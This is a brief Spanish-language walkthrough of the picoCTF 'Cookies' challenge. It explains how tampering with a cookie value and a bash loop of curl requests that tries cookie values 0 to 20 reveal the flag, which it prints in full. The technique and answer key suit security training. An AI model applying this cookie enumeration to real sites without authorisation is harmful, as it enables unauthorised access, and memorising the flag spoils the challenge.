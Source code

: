 ## Cookies

### Objetivos 
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:64944/](http://mercury.picoctf.net:64944/)

### Pistas
(None)

### Solución 
- probamos a introducir algo en el campo de texto
- nos dice que no es una cookie valida
- con el pluggin editor de cookies cambiamos el valor de la cookie generada a 1
- ahora si nos dice que es una cookie valida, pero no es especial
- copiamos el link de la pagina para hacer la solicitud desde consola
- hacemos un ciclo for que va probar los numeros de 0 a 20 para encontrar la cookie que nos muestre la bandera. 

``` bash
kali㉿kali)-[~]
└─$ for i in {0..20}; do curl -s http://mercury.picoctf.net:64944/check -H "Cookie: name=$i"; done | grep pico
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}</code></p>
```

picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}

### Notas adicionales:
### Referencias:
